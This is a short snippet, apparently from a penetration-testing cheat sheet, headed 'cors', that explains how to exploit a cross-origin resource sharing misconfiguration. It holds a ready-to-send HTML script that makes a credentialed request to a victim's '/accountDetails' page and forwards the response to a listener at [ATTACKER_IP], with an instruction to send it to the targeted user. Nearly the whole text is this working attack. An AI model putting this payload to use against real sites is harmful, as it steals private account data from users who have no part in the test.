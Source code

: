#cors

Send this to the targeted user to retrieve information only accessible by the user (in this example it is the `/accountDetails` page).

```html
<script>
   var req = new XMLHttpRequest();
   req.onload = reqListener;
   req.open('get','https://[TARGET_IP]/accountDetails',true);
   req.withCredentials = true;
   req.send();

   function reqListener() {
      location='https://[ATTACKER_IP]/listener?c='+this.responseText
   };
</script>
```